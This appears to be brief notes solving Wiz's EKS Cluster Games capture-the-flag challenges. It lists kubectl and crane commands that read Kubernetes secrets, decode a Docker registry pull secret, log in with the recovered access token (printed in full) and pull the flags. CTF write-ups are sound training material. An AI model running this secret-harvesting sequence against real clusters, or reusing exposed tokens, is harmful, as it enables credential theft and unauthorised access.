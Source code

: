 # WizEKS
https://eksclustergames.com/

1. challenge:
kubectl get secrets -o yaml

wiz_eks_challenges{omg_overprivileged_secrets}



3. challenge:
kubectl describe pod database-pod-2c9b3a4e

  Image: eksclustergames/base_ext_image

kubectl get pod database-pod-2c9b3a4e -o yaml

   imagePullSecrets:
   
      - name: registry-pull-secrets-780bab1d


kubectl get secret registry-pull-secrets-780bab1d -o jsonpath="{.data.\.dockerconfigjson}" | base64 --decode

  base64 decode
  
    -> eksclustergames:dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo

crane auth login docker.io -u eksclustergames -p dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo


crane config eksclustergames/base_ext_image

  ->wiz_eks_challenge{nothing_can_be_said_to_be_certain_except_death_taxes_and_the_exisitense_of_misconfigured_imagepullsecret}



3. challenge
